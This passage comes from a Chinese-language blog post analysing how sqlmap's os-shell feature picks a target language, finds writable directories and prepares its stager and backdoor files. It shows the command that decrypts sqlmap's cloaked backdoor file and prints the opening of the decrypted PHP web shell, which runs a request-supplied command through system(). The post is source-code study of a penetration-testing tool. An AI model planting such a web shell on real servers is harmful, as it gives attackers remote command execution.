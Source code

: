 这个函数比较长，这里挑重点说一下：


第一步确认应用语言类型：


首先会初始化相关变量，获取公开的应用语言类型，存储在choices列表中。然后需要根据当前的url后缀确定默认语言。如果没有通过url后缀确定出来，那么Windows平台默认就是asp，其他均视为php。或者最后由用户自己输入应用语言类型。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123225826883-55404399.png)](https://github.com)


第二步准备上传目录和上传文件的内容：


首先sqlmap它会主动通过从不同来源解析文件路径，包括从原始页面匹配的url中解析，从修改后的url中解析，从请求参数中解析，从cookie中解析。尽可能的找多的完整文件路径存贮在kb.absFilePaths列表中。


上传目录列表directories，它可以通过getManualDirectories函数获取手动指定的目录列表，还会调用getAutoDirectories函数获取自动生成的目录列表（即kb.absFilePaths列表，然后再使用正则表达式对路径path进行一个处理。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123230728790-1227964948.png)](https://github.com)


上传目录准备完成，接着就需要准备待写入的stager文件和backdoor后门文件的文件内容，首先会生成一个随机的后门文件名（tmpb\+随机字符串）以备使用，然后需要从分别本地来获取后门的内容和stager的内容。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123231023245-1455259667.png)](https://github.com):[veee加速器](https://youhaochi.com)


可以不妨先来看看这两个待写入的文件是什么东西，以php脚本为例。


注意：



> 这里下划线结尾的文件是无法直接打开浏览的，原因是这些文件中包含了一些恶意的代码，sqlmap为了防止本地的杀软把这些文件误杀了，进行了加密处理。
> 
> 
> 可以通过sqlmap提供的extra/cloak/cloak.py进行解密：python cloak.py \-d \-i D:\\Temp\\sqlmap\-1\.8\\data\\shell\\backdoors\\backdoor.php\_


解密后的backdoor.php\_如下：



```
php</span
$c=$_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set("max_execution_time",0);
$z=@ini_get("disable_functions");
if(!empty($z)){
	$z=preg_replace("/[, ]+/",',',$z);
	$z=explode(',',$z);
	$z=array_map("trim",$z);
}else{
	$z=array();
}
$c=$c." 2>&1\n";
function f($n){
	global $z;
	return is_callable($n)and!in_array($n,$z);
}
if(f("system")){
	ob_start();
	system($c);
```